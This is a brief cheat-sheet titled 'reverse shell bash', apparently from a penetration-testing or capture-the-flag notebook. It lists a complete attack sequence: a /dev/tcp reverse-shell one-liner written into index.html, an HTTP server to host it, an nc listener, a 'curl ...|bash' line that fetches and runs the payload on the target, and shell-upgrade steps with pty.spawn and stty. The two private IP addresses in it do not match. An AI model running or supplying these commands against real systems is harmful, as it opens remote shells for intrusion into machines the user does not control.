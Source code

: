 # Bash

**reverse shell bash**

```bash
echo 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1' > index.html
sudo python3 -m http.server 80
nc -lvnp 4444
curl 10.10.14.2|bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL + Z
stty raw -echo
fg
<return>
```

